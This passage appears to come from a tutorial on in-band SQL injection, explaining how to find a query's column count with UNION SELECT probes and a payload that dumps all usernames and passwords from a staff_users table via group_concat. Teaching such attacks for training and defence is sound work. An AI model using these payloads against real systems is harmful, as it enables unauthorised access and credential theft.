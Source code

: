 The query results provide three columns for the staff_users table: id, password, and username. We can use the username and password columns for our following query to retrieve the user's information.
```sql
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```


Again, we use the group_concat method to return all of the rows into one string and make it easier to read. We've also added **,':',** to split the username and password from each other. Instead of being separated by a comma, we've chosen the HTML **<br>** tag that forces each result to be on a separate line to make for easier reading.

## Get Started In-Band
```sql
1 UNION SELECT 1

1 UNION SELECT 1,2,3

0 UNION SELECT 1,2,3
```
